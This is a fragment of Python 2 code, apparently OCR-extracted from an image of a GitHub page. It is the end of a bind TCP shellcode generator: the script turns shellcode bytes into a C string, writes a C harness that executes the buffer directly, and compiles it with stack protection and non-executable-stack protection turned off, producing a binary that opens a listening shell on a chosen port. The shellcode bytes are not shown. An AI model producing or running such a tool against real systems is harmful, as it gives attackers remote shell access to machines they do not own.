 ```python
			for c in bytearray(shellcode):
    				sc += "\\x%02x" % c
			shellcode_c = '#include<stdio.h>\n\
#include<string.h>\n\
unsigned char code[] = "%s";\n\
main(){\n\
printf("Shellcode Length: %%d\\n", strlen(code));\n\
int (*ret)() = (int(*)())code;\n\
ret();\n\
}'%sc
			with open("shellcode_tmp.c", "w") as f:
				f.write(shellcode_c)
			os.system("gcc shellcode_tmp.c -fno-stack-protector -z execstack -o shellcode")
			os.system("rm shellcode_tmp.c")
			if nullbytes:
				print "[+] Bind TCP shellcode created with null bytes\n[+] Run ./shellcode"
			else:
				print "[+] Bind TCP shellcode created\n[+] Run ./shellcode"
		except ValueError:
			print "[-] Port must be a number"
	else:
		print "usage: %prog <port> \nExample: ./%prog 4444"
```


